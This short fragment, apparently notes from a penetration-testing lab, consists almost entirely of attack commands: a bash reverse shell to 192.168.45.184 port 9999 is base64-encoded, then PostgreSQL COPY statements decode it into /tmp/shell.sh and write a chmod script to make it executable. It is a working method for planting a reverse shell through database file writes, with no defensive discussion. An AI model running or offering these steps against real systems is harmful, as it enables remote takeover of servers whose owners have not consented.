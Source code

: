 ```

echo -n 'bash -i >& /dev/tcp/192.168.45.184/9999 0>&1' | base64


```

Create tmp/shell.sh
```
COPY (SELECT convert_from(decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE4NC85OTk5IDA+JjE=
', 'base64'), 'utf-8')) TO '/tmp/shell.sh';

```
create a /tmp/make_executable.sh 


```
COPY (SELECT convert_from(decode('Y2htb2QgK3ggL3RtcC9zaGVsbC5zaA==', 'base64'), 'utf-8')) TO '/tmp/make_executable.sh';



```
